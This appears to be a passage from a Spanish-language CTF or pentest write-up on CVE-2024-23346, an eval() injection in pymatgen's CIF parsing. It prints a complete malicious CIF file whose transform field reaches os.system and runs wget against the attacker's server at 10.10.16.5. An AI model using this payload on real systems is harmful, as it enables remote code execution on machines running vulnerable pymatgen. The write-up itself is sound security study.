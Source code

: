 ### Arbitrary Code Execution in Pymatgen via Insecure Deserialization (CVE-2024-23346) \[RCE]

Realizando una investigación sobre posibles vulnerabilidades para crear archivos `CIFs`maliciosos, nos encontramos con el siguiente CVE.

{% embed url="https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-23346" %}

{% hint style="danger" %}
Pymatgen (Python Materials Genomics) es una librería Python de código abierto para análisis de materiales. Existe una vulnerabilidad de seguridad crítica en el método JonesFaithfulTransformation.from\_transformation\_str() dentro de la librería pymatgen antes de la versión 2024.2.20.

Este método utiliza de forma insegura eval() para procesar la entrada, lo que permite la ejecución de código arbitrario al analizar entradas que no son de confianza. La versión 2024.2.20 soluciona este problema.
{% endhint %}

También encontramos con el siguiente repositorio de GitHub que nos muestra un ejemplo de un archivo `CIF` malicioso que permite la ejecución de comandos remotos.

{% embed url="https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f" %}

En este ejemplo, para probar que la vulnerabilidad existe y podemos aprovecharnos de ella, lo que realizaremos es que haga una solicitud con la herramienta `wget` a nuestro servidor web que montaremos posteriormente y haga una llamada a un archivo que no existe. Esto con el objetivo de verificar si recibimos en nuestro servidor web la solicitud que realiza el equipo víctima a nuestro servidor.

```bash
❯ catnp test.cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget 10.10.16.5/test");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Procederemos a subir al sitio web el archivo `CIF` malicioso.
